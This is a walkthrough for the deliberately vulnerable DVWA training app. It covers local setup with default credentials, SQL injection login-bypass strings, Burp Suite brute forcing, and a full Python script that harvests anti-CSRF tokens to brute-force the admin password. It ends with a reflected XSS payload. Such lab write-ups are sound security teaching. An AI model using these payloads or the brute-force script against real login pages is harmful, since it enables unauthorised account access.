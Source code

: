 ## Download, Install and Use of DVMA as Target <br>

  
### PhpStudy
	
   >(use Phpstudy for reduce the complexity of setting)<br>
   * lauch Apache, and SQL database
    
### DVMA
	
	*  Decompression of DVMA_Master.zip (which downloaded from ‘http://www.dvwa.co.uk/’) under the folder 'phpstudy_pro/wwww/.'
	*  Modify suffix of document 'config.inc.php.dist' ->> 'config.inc.php'.
	*  Modify the content of 'config.inc.php' --->>  modify values of 'db_username' and 'db_password' as 'root'.
	   ( namely, 'db_username'='root' and  'db_password' = 'root'. )
	*  Open the dvma webseit 'http://127.0.0.1/setup.php'.
	*  Login with default credential.
	   ( namely, 'username' = 'admin', 'password' = 'password')
    
    
### DVWA Sulutions of Brute Force: 
  #### Brute Force 
  #### Low Security Level:
    *   View Source
    *   Find that, only 'Login' will be validated, isset(*) checks whether para* is set and return True/False.
    *   Without any defense of Brute Force, also without any Filter of 'username' and 'password'.
    
##### Method 1: Usage of Burpsuite for Brute Force 
	  * Steps:
		    * 1.1 open Burpsuite (Burpsuite is easy to get/download and install from web).
		    * 1.2 click Proxy, set Intercept off firstly, then click 'open browser' to load the webseite,
		    	   which need to be intercepted.
		    * 1.3 input arbitrary value to login, and Burpsuite will get the info about its.
		    * 1.4 'Ctrl+l' or chose 'Action' as 'Send it to Intruder'.
		    * 1.5 Add password as playload value.
		    * 1.6 Fill the playload set, and start attack.
		    * 1.7 Actually, you will find the response length of the correct password is different as others.
	    
##### Method 2: Sql Injection
	  * 2.1 
		-username：  admin ' or ' 1 ' = ' 1
		-password: (none)
	  * 2.2 
		-username: admin ' #   (#:annotation of rest request sentence.)
		-pass: (none)
            
#### Medium Security Level:
  * Different from Low Level, a new function is added.
  
	     * mysql_real_escape_string function, this function will transfer the special symbols, like " ' ", 
	       namely, this function can defence Sql Injection Attack.
	       Thus, the Sql Injection Attack in medium level unfeasible nowly.
	     * but the Brute Force with Burpsuit is still work in this level.
	       (same as low level, see the steps discription of low level)
            
#### Highl Security Level:
   * At high level, a function of generation of CSRF Token is added. 
   
           * namely, generateSessionToken(); // Generate Anti-CSRF token  
           * that means, the Request Url will contains a 'user_token' by sending to Server. 
	     And the Sever checks the recieved token firstly, if token is valid, then the Server 
             operates the Sql queries.
	     
* To achieve the goal at high security level, we need to write a phython script to brute force the password.
   
* sending request to server to get response

		req = urllib.request.Request(url=requrl,headers=header)
		
* for getting ' user_token ' , we need to use BeautifulSoup package to read the reponse content, and parser the page to get 'token'
	  
		  soup = BeautifulSoup(the_page,"html.parser")
		  user_token = soup.find('input',{'name':'user_token'})['value']
	   
* brute force the password by sending request to the server with following URL, which including the param 'user_token' additional

	   	 requrl = "http://192.168.178.34/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token 
		
* for using the Brupsuite to intercept the whole runtime of python code, we need to set the ProxyHandler of those code, so that, the Proxy is same as Brupsuite's.
      
      		proxy_handler = urllib.request.ProxyHandler({'http': '127.0.0.1:8080'})
		opener = urllib.request.build_opener(proxy_handler)
          
##### Complete Code is as following:

	from bs4 import BeautifulSoup
	import urllib.request


	proxy_handler = urllib.request.ProxyHandler({'http': '127.0.0.1:8080'})
	opener = urllib.request.build_opener(proxy_handler)


	header = {
		'Host': '192.168.178.34',
			'Cache-Control': 'max-age=0',
			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'Referer': 'http://192.168.178.34/vulnerabilities/brute/index.php',
			'Accept-Encoding': 'zip, deflate',
			'Accept-Language': 'zh-CN,zh;q=0.9',
			'Cookie': 'security=high; PHPSESSID=ra6hjmncufirj8n9qgioejm854'
			}

	requrl = "http://192.168.178.34/vulnerabilities/brute/"

	def get_token(requrl,header):
		req = urllib.request.Request(url=requrl,headers=header)
		response = opener.open(req)
		the_page = response.read()
		soup = BeautifulSoup(the_page,"html.parser")
		print(len(the_page),response.getcode())
		user_token = soup.find('input',{'name':'user_token'})['value']  #get the user_token
		#print(user_token)
		return user_token

	user_token = get_token(requrl,header)

	i=0

	for line in open('test'):
		requrl = "http://192.168.178.34/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
		i = i+1
		print(i,'admin',line.strip(),end=" ")
		user_token = get_token(requrl, header)
		if (i == 7):
			break
        
        
    
## XSS(Reflected)
      * View Source
      * Find that, value of param 'name' is directly used, and without any Checking and filtering of Script.
      * Input: <script>alert('hello world')</script>

